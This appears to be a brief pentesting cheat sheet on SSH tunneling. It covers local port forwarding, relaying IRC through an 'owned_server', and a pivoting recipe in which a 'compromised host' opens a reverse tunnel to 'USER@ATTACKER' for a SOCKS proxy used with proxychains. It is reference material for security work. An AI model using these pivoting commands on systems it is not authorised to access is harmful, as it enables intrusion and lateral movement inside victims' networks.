 # SSH tunneling

## SSH tunneling <a id="ssh-tunneling"></a>

`ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)`

### SSH reverse tunnel \(ie for irc\)

`ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server`

`ssh -L 9001:127.0.0.1:8082 polo@server`

then

`irssi -c localhost -p localhost_PORT`

### Dynamic port Forwarding

* On compromised host :

`ssh -f -N -R 2222:127.0.0.1 USER@ATTACKER`

* Then, on attacker :

`ssh -f -N -D 127.0.0.1:1028 -p 2222 user@127.0.0.1`

* Then configure proxychains.conf

`root@kali:~/ proxychains ssh 10.1.1.1`  
 ProxyChains-3.1 \([http://proxychains.sf.net](http://proxychains.sf.net/)\)  
 \|S-chain\|-&lt;&gt;-127.0.0.1:1028-&lt;&gt;&lt;&gt;-10.1.1.1:22-&lt;&gt;&lt;&gt;-OK

